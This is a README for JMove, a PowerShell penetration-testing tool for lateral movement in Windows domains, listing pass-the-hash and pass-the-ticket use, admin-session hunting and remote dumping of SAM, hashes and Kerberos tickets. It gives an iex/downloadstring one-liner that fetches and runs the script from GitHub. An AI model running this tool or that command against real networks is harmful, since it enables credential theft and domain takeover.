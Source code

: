 # JMove
Lateral Movement within Windows environments

JMove is a PowerShell tool that is designed to aid in lateral movement within a Windows environment. 

This tool enables you to use new credentials, such as usernames and passwords or hashes or tickets, to perform pass-the-password, pass-the-hash, or pass-the-ticket actions. 

The tool can handle both domain or local credentials, providing a versatile solution for network penetration testing. 

Once the credential material is provided, JMove will

- Enumerate Active Directory (AD) for servers or workstations, or work with a provided list of hostnames

- Run a port 135 scan to check for alive hosts, and enumerate if you have local admin access to those hosts

- Enumerate AD Domain and Enterprise Admins

- Enumerate users sessions on those hosts where you have local admin access

- Check if any Domain or Enterprise Admin has a session on any of those hosts

- Dump SAM from those hosts

- Dump hashes and tickets from those hosts then save them into your current folder

- Check for the presence of Domain or Enterprise Admins tickets or hashes in the dumps

Run as follows:

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/JMove/main/JMove.ps1')`

Credits:

Rubeus

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/

Mimikatz

Benjamin DELPY gentilkiwi ( benjamin@gentilkiwi.com )

Invoke-SMBClient

Kevin-Robertson - https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBClient.ps1

Invoke-SMBExec

Kevin-Robertson - https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1

Import-ActiveDirectory

samratashok - https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1

Find-WMILocalAdminAccess

samratashok - https://github.com/samratashok/nishang

SharpSecDump

G0ldenGunSec - https://github.com/G0ldenGunSec/SharpSecDump

Get-LoggedInUser

Paul Contreras - https://thesysadminchannel.com/get-logged-in-users-using-powershell/
